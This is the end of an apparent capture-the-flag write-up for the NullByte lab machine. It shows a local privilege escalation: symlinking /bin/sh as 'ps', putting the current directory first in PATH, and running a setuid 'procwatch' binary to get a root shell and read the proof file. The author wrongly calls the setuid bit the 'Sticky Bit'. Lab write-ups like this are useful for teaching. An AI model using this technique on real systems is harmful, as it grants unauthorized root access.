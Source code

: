 There is nothing valuable in th *readme.txt* file.
I try to run *procwatch* binary. It opens the same STDOUT like *ps* command in the linux. Also if we pay attention to the file permissions there is **Sticky Bit** in this file. It means that we will need to gain root privileges using **Sticky Bit**.
```
ramses@NullByte:/var/www/backup$ ln -s /bin/sh ps  
ramses@NullByte:/var/www/backup$ ls  
procwatch ps readme.txt  
ramses@NullByte:/var/www/backup$ export PATH=.:$PATH  
ramses@NullByte:/var/www/backup$ ./procwatch  
# whoami  
root  
# cat /root/proof.txt  
adf11c7a9e6523e630aaf3b9b7acb51d  
  
It seems that you have pwned the box, congrats.  
Now you done that I wanna talk with you. Write a walk & mail at  
xly0n@sigaint.org attach the walk and proof.txt  
If sigaint.org is down you may mail at nbsly0n@gmail.com  
  
  
USE THIS PGP PUBLIC KEY  
  
-----BEGIN PGP PUBLIC KEY BLOCK-----  
Version: BCPG C# v1.6.1.0  
  
mQENBFW9BX8BCACVNFJtV4KeFa/TgJZgNefJQ+fD1+LNEGnv5rw3uSV+jWigpxrJ  
Q3tO375S1KRrYxhHjEh0HKwTBCIopIcRFFRy1Qg9uW7cxYnTlDTp9QERuQ7hQOFT  
e4QU3gZPd/VibPhzbJC/pdbDpuxqU8iKxqQr0VmTX6wIGwN8GlrnKr1/xhSRTprq  
Cu7OyNC8+HKu/NpJ7j8mxDTLrvoD+hD21usssThXgZJ5a31iMWj4i0WUEKFN22KK  
+z9pmlOJ5Xfhc2xx+WHtST53Ewk8D+Hjn+mh4s9/pjppdpMFUhr1poXPsI2HTWNe  
YcvzcQHwzXj6hvtcXlJj+yzM2iEuRdIJ1r41ABEBAAG0EW5ic2x5MG5AZ21haWwu  
Y29tiQEcBBABAgAGBQJVvQV/AAoJENDZ4VE7RHERJVkH/RUeh6qn116Lf5mAScNS  
HhWTUulxIllPmnOPxB9/yk0j6fvWE9dDtcS9eFgKCthUQts7OFPhc3ilbYA2Fz7q  
m7iAe97aW8pz3AeD6f6MX53Un70B3Z8yJFQbdusbQa1+MI2CCJL44Q/J5654vIGn  
XQk6Oc7xWEgxLH+IjNQgh6V+MTce8fOp2SEVPcMZZuz2+XI9nrCV1dfAcwJJyF58  
kjxYRRryD57olIyb9GsQgZkvPjHCg5JMdzQqOBoJZFPw/nNCEwQexWrgW7bqL/N8  
TM2C0X57+ok7eqj8gUEuX/6FxBtYPpqUIaRT9kdeJPYHsiLJlZcXM0HZrPVvt1HU  
Gms=  
=PiAQ  
-----END PGP PUBLIC KEY BLOCK-----  
  
#
```

In this point can be a little confusing.

 1. Firstly, we create Soft Link to **/bin/sh** as the name of **ps**.
 2. Then I change the $PATH file, because when we run the *procwatch* it will search for *ps* command using $PATH file. We say that the first place to looking for finding commands is our *current directory* (dot means that).
 3. When we run *procwatch* it will look for current directory run *ps* soft link and it triggered system shell.

Bingo! Thanks for reading!





## Additional
It can be much better to dump all the information from the database manually.